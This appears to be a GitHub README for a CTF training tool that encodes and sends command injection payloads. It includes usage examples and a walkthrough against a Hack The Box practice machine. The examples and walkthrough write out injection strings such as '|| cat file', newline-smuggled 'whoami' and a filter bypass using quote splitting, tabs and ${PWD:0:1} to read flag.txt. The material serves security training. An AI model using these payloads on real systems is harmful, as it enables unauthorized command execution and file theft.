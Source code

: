 # Request Encoder

Request Encoder is a module that can be used to encode requests mostly for pseudo-manual command injection exploitation. This tool was developed for training purposes.

## Examples

The tool accept three kind of input formats injected into `-p`:

* `-i`: a string that is injected into
* `-w`: a wordlist (one string per line)
* `-I`: a file whose content will be inline using `\n`

```bash
$ onectf request -u 'URL' -v -X POST -p uid -w uids
```

By default, assuming the parameter is `-p param`, then the parameter will be injected into the URL (`GET`) or in the body (`POST/...`). Some websites are not using parameters, e.g., they send `body: xxx` instead of `body: param=xxx`.

* Use `--json` when there is no parameter and the payload is JSON
* Use `--raw` when there is no parameter

```bash
$ onectf request -u 'URL' -v -X PUT --json -I request.json
$ onectf request -u 'URL' -v -X POST --raw -I request.xml
```

Aliases are automatically enabled by default. You can use:

* `<q>` instead of `'` (quote)
* `<er>` instead of `2>&1` (error redirection)
* `<tab>` for a tabulation character
* `<m>` instead of `-` (minus)
* `<crlf>` instead of `%0D%0A` (`\r\n`)
* `<lf>` instead of `%0A` (`\n`)

```bash
$ onectf request -u 'URL' -v -X POST -p param -i '|| cat file <er>'
$ onectf request -u 'URL' -v -X POST -p param -i 'echo <q>Hello<q>'
$ onectf request -u 'URL' -v -X POST -p param -i 'xxx<lf>whoami'
```

You can select with tamper script to apply:

```bash
$ onectf request -u 'URL' -v -X POST -p param --tamper php_octal -i 'phpinfo()'
$ onectf request -u 'URL' -v -X POST -p 'param' -I file --raw --tamper data_base64
$ onectf request -u 'URL' -v -X GET -p 'param' -w uids -f html --tamper base64
```

While fuzzing is not the primary purpose:

```bash
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
$ onectf request -u 'URL/FUZZ' -X GET --fuzz -H 'Cookie: session=XXX; HttpOnly; Path=/' -w uids -f json
```

You can use `-f` to select a specific output format:

```bash
$ onectf request -u 'URL' -v -X POST -d 'param1=a&param2=b' -p 'param3' -i '5+5' -f raw
$ onectf request -u 'URL' -v -X POST -p 'uid' -w uids -f html
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
```

## Testing

We can test the tool on the following practice CTF machine: `https://academy.hackthebox.com/module/109/section/1042`.

* We can try to inject something in each parameter of the request, such as `from` below:

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';' -v
```

The following requests result in an error displayed to the URL indicating that the command `mv` failed (missing operand). **The parameter is vulnerable.**

Trying payloads with well-known commands such as `;id`, `;pwd` or `;cat` are filtered (`Malicious request denied!`) while `;w` works fine. Commands such as `;c""at` are by-passing the filter.

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at' -v
```

Spaces are filtered. We can use tabs using the placeholder `<tab>`.

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at<tab>' -v
```

We need to build a path. `..` is allowed, while `../` is filtered. We can use variables:

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';ca""t<tab>..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}flag.txt' -v
```